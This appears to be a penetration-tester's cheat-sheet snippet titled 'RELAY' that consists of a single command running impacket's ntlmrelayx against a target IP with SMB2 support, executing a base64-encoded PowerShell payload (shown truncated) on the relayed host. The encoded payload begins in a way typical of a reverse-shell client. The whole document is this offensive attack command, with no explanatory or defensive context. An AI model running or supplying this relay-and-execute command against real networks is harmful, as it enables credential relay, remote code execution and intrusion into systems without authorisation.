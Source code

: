 # RELAY
#impacket_ntlmrelayx
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t [ip] -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```